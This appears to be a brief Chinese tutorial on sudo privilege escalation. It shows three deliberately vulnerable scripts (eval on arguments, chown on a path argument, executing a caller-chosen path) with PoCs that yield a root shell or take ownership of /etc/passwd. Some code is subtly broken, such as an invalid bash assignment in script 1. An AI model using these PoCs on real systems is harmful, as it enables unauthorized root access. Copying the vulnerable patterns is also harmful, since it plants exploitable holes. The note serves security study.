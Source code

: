 如果sudo脚本的入参未经限制，可能引发提权问题。

# 0x00 脚本1

```shell
root: echo "aplyc1a ALL=(root) NOPASSWD:/home/aplyc1a/escal/1.sh" >> /etc/sudoers
root: chmod 755 /home/aplyc1a/escal/1.sh
```

脚本内容如下：

```shell
#!/bin/bash
set -x
if [ $1 = "aaa" ];then
    cmd = "$2 $3"
    eval $cmd
    exit $?
fi
```

poc:

```shell
aplyc1a:sudo ./1.sh aaa su -
```

# 0x01 脚本2

```shell
#!/bin/bash
set -x
if [ $1 = "aaa" ];then
    chown aplyc1a:aplyc1a $2/log.sh
fi
```

poc:

```shell
aplyc1a:sudo ./2.sh aaa "/etc/passwd "
```



# 0x02 脚本3

root在aplyc1a家目录下创建3.sh内容如下：

```shell
#!/bin/bash
${1}/log.sh
```

poc:

```shell
aplyc1a: echo "#!/bin/bash" > /tmp/log.sh
aplyc1a: echo "bash" > /tmp/log.sh
aplyc1a: chmod a+x /tmp/log.sh
aplyc1a:sudo ./3.sh "/tmp/"
```

